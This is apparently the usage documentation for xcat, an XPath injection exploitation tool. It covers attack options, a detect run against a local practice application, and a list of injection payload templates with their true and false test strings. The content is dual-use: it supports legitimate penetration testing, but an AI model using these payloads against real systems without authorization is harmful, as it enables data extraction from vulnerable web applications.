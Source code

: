 # Common options

All commands except `ip` take the same arguments. These describe the attack you are making, 
and allows xcat to explore it and work out what features it can use.

At _minimum_ you need to supply:

- A URL to attack (`url`)
- A target parameter which is vulnerable to XPath injection (`target_parameter`)
- A value for this parameter, and optionally others if required (`parameters`)
- A string or a status code that is present in the response if the condition is True (`--true-string` and `--true-code`)

For example, to attack the [example vulnerable application](https://github.com/orf/xcat_app) you would use:

`xcat run http://localhost:4567/ query query=Rogue --true-string=Lawyer` 

This instructs `xcat` that:

- The vulnerable URL is `http://localhost:4567/`
- The vulnerable parameter is `query`
- The parameters to pass to the URL are `query=Rogue`
- The true condition is `Lawyer` being present in the response

## Additional options

#### `--headers`

This argument can be used to send custom headers, including cookies. It should be a file path to a plain text 
file containing lines in the following format:

```text
Header-Name: header-value
```

**Example:** `xcat run ... --headers=my-header-file.txt`

#### `--body`

This argument is a path to a file containing a request body to send. This is helpful if you are exploiting a 
POST request that has a vulnerable URL parameter, but also require a POST body to be sent. The file contents 
are sent as-is.

**Example:** `xcat run ... --headers=my-request-body.txt`

#### `--encode`

XCat currently supports manipulating either URL or form parameters. This allows you to switch between 
sending the exploit payload via the POST body or URL arguments.

**Example:** `xcat run ... --encode=form`

#### `--fast`

When this flag is present then XCat will only retrieve the first 15 characters of strings. This can drastically speed
up retrieval in documents that contain very large strings.

**Example:** `xcat run ... --fast`

#### `--concurrency`

This parameter limits the number of concurrent connections xcat can make. Setting it too low will slow down 
exploitation, but can reduce the load on the target server.

**Example:** `xcat run ... --concurrency=10`

#### `--enable/--disable`

XCat attempts to intelligently detect what features the target server supports and uses these to speed up 
retrieval. These flags let you force enable or disable these features.

**Example:** `xcat run ... --enable=substring-search`

#### `--oob`

Enables the `oob` server. For more info see [the oob server documentation.](oob.md)

**Example:** `xcat run ... --oob=$EXTERNAL_IP:$EXTERNAL_PORT`

# Detect

This command will print out what injection XCat has detected, as well as a list of features and their status. You 
can use this to quickly explore an injection and different parameter values before commencing an attack.

```shell
$ xcat detect http://localhost:4567/ query query=Rogue --true-string=Lawyer
function call - last string parameter - single quote
Example: /lib/something[function(?)]

Detected features:
xpath-2: True
xpath-3: False
xpath-3.1: False
normalize-space: True
substring-search: True
codepoint-search: True
environment-variables: False
document-uri: True
base-uri: True
current-datetime: True
unparsed-text: False
doc-function: True
linux: False
expath-file: False
saxon: False
oob-http: False
oob-entity-injection: False
``` 

# run


# injections

This command prints out all the injections XCat currently can use, along with the sample expressions 
XCat will use to test if this injection works.

```shell
$ xcat injections
Supports 10 injections:
Name: integer
 Example: /lib/book[id=?]
 Tests:
   ? and 1=1 = passes
   ? and 1=2 = fails
Name: string - single quote
 Example: /lib/book[name='?']
 Tests:
   ?' and '1'='1 = passes
   ?' and '1'='2 = fails
Name: string - double quote
 Example: /lib/book[name="?"]
 Tests:
   ?" and "1"="1 = passes
   ?" and "1"="2 = fails
Name: attribute name - prefix
 Example: /lib/book[?=value]
 Tests:
   1=1 and ? = passes
   1=2 and ? = fails
Name: attribute name - postfix
 Example: /lib/book[?=value]
 Tests:
   ? and not 1=2 and ? = passes
   ? and 1=2 and ? = fails
Name: element name - prefix
 Example: /lib/something?/
 Tests:
   .[true()]/? = passes
   .[false()]/? = fails
Name: element name - postfix
 Example: /lib/?something
 Tests:
   ?[true()] = passes
   ?[false()] = fails
Name: function call - last string parameter - single quote
 Example: /lib/something[function(?)]
 Tests:
   ?') and true() and string('1'='1 = passes
   ?') and false() and string('1'='1 = fails
Name: function call - last string parameter - double quote
 Example: /lib/something[function(?)]
 Tests:
   ?") and true() and string("1"="1 = passes
   ?") and false() and string("1"="1 = fails
Name: other elements - last string parameter - double quote
 Example: /lib/something[function(?) and false()] | //*[?]
 Tests:
   ?") and false()] | //*[true() and string("1"="1 = passes
   ?") and false()] | //*[false() and string("1"="1 = fails
```

# ip

This command is a convenience function to get your current external IP address. It takes 
no arguments.

```shell
$ xcat ip
123.210.60.90
```
